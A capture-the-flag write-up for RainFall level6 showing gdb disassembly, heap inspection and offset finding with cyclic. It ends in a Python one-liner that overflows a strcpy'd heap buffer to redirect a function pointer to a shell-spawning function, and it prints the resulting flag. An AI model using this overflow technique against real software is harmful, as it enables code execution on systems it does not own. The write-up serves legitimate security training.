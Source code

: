 TLDR
```
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   .
   .
   .
   .
   0x080484ba <+62>:	mov    0x1c(%esp),%eax     dst = buffer ptr allocated by first malloc
   0x080484be <+66>:	mov    %edx,0x4(%esp)      src = av1 
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   
   char *strcpy( *dst, *src);
   
   last thing called is unprotected strcpy == overwrite the eip
```

details

```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```

```
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)

allocate addr in the heap, store it in eax, then move it to $esp+0x1c

(gdb) x $esp+0x1c
      0xbffff6bc:	0x0804a008 [HEAP]

   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   

allocate addr in the heap, store it in eax, then move it to 0x18(%esp)

   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax

   make that addr point to fun m()-puts-
```

send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

or maybe try cyclic tool:
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
pass it as argv in gdb:
```
(gdb) run "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Program received signal SIGSEGV, Segmentation fault.
0x61616173
```

```
unhex 61616173 | rev
saaa

cyclic -l saaa
72
```
```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with the addr of n()  0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```











